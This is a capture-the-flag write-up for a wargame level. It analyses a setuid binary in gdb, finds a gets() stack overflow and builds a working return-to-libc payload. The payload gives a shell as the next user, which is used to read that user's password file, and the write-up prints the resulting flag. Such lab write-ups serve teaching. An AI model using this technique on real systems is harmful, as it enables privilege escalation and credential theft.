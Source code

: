 # Search 

```
$ ls -l
-rwsr-s---+ 1 level05 users 7797 Sep 10  2016 level04

$ ./level04 
Give me some shellcode, k
\x\x\x\x\x
child is exiting...
```

# analyze with gdb

```
$ gdb level04

(gdb) disas main
Dump of assembler code for function main:
   0x080486c8 <+0>:     push   %ebp
   0x080486c9 <+1>:     mov    %esp,%ebp
   0x080486cb <+3>:     push   %edi
   0x080486cc <+4>:     push   %ebx
   0x080486cd <+5>:     and    $0xfffffff0,%esp
   0x080486d0 <+8>:     sub    $0xb0,%esp
   0x080486d6 <+14>:    call   0x8048550 <fork@plt>
   0x080486db <+19>:    mov    %eax,0xac(%esp)
   0x080486e2 <+26>:    lea    0x20(%esp),%ebx
   0x080486e6 <+30>:    mov    $0x0,%eax
   0x080486eb <+35>:    mov    $0x20,%edx
   0x080486f0 <+40>:    mov    %ebx,%edi
   0x080486f2 <+42>:    mov    %edx,%ecx
   0x080486f4 <+44>:    rep stos %eax,%es:(%edi)
   0x080486f6 <+46>:    movl   $0x0,0xa8(%esp)
   0x08048701 <+57>:    movl   $0x0,0x1c(%esp)
   0x08048709 <+65>:    cmpl   $0x0,0xac(%esp)
   0x08048711 <+73>:    jne    0x8048769 <main+161>
   0x08048713 <+75>:    movl   $0x1,0x4(%esp)
   0x0804871b <+83>:    movl   $0x1,(%esp)
   0x08048722 <+90>:    call   0x8048540 <prctl@plt>
   0x08048727 <+95>:    movl   $0x0,0xc(%esp)
   0x0804872f <+103>:   movl   $0x0,0x8(%esp)
   0x08048737 <+111>:   movl   $0x0,0x4(%esp)
   0x0804873f <+119>:   movl   $0x0,(%esp)
   0x08048746 <+126>:   call   0x8048570 <ptrace@plt>
   0x0804874b <+131>:   movl   $0x8048903,(%esp)
   0x08048752 <+138>:   call   0x8048500 <puts@plt>
   0x08048757 <+143>:   lea    0x20(%esp),%eax
   0x0804875b <+147>:   mov    %eax,(%esp)
   0x0804875e <+150>:   call   0x80484b0 <gets@plt>
   0x08048763 <+155>:   jmp    0x804881a <main+338>
   0x08048768 <+160>:   nop
   0x08048769 <+161>:   lea    0x1c(%esp),%eax
   0x0804876d <+165>:   mov    %eax,(%esp)
   0x08048770 <+168>:   call   0x80484f0 <wait@plt>
   0x08048775 <+173>:   mov    0x1c(%esp),%eax
   0x08048779 <+177>:   mov    %eax,0xa0(%esp)
   0x08048780 <+184>:   mov    0xa0(%esp),%eax
   0x08048787 <+191>:   and    $0x7f,%eax
   0x0804878a <+194>:   test   %eax,%eax
   0x0804878c <+196>:   je     0x80487ac <main+228>
   0x0804878e <+198>:   mov    0x1c(%esp),%eax
   0x08048792 <+202>:   mov    %eax,0xa4(%esp)
   0x08048799 <+209>:   mov    0xa4(%esp),%eax
   0x080487a0 <+216>:   and    $0x7f,%eax
   0x080487a3 <+219>:   add    $0x1,%eax
   0x080487a6 <+222>:   sar    %al
   0x080487a8 <+224>:   test   %al,%al
   0x080487aa <+226>:   jle    0x80487ba <main+242>
   0x080487ac <+228>:   movl   $0x804891d,(%esp)
   0x080487b3 <+235>:   call   0x8048500 <puts@plt>
   0x080487b8 <+240>:   jmp    0x804881a <main+338>
   0x080487ba <+242>:   movl   $0x0,0xc(%esp)
   0x080487c2 <+250>:   movl   $0x2c,0x8(%esp)
   0x080487ca <+258>:   mov    0xac(%esp),%eax
   0x080487d1 <+265>:   mov    %eax,0x4(%esp)
   0x080487d5 <+269>:   movl   $0x3,(%esp)
   0x080487dc <+276>:   call   0x8048570 <ptrace@plt>
   0x080487e1 <+281>:   mov    %eax,0xa8(%esp)
   0x080487e8 <+288>:   cmpl   $0xb,0xa8(%esp)
   0x080487f0 <+296>:   jne    0x8048768 <main+160>
   0x080487f6 <+302>:   movl   $0x8048931,(%esp)
   0x080487fd <+309>:   call   0x8048500 <puts@plt>
   0x08048802 <+314>:   movl   $0x9,0x4(%esp)
   0x0804880a <+322>:   mov    0xac(%esp),%eax
   0x08048811 <+329>:   mov    %eax,(%esp)
   0x08048814 <+332>:   call   0x8048520 <kill@plt>
   0x08048819 <+337>:   nop
   0x0804881a <+338>:   mov    $0x0,%eax
   0x0804881f <+343>:   lea    -0x8(%ebp),%esp
   0x08048822 <+346>:   pop    %ebx
   0x08048823 <+347>:   pop    %edi
   0x08048824 <+348>:   pop    %ebp
   0x08048825 <+349>:   ret    
```

understanding the main:
- a fork is called, and ptrace is used to keep an eye on
- if exec() is called the child is called so we cannot use it in our shellcode

## setting to follow child process

we have to set this ```set follow-fork-mode child``` before running and searching for the offset, because the segf happen in child process and we must know what is in eip at this moment.

# libc exploit

lets try a [return to libc exploit](https://beta.hackndo.com/retour-a-la-libc/) with system, exit and '/bin/sh'\
corresponding to : ```$ exit ; /bin/sh``` we need:
- the address of them (system, exit and '/bin/sh')
- the offset to eip (next instruction register)

### find offset

```
$ gdb -q level04
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 1669]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1669]
0x41326641 in ?? ()
(gdb) i r eip
eip            0x41326641       0x41326641
```

thanks to [this generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?) 0x41326641 -> offset 156

```
(gdb) info function system
0xf7e6aed0  system

(gdb) info function exit
0xf7e5eb70  exit

(gdb) info proc map
Start Addr   End Addr       Size     Offset objfile
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so

(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
```
# payload

```
$ python -c "print('a' * 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7')" > /tmp/exploit

$ cat /tmp/exploit - | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
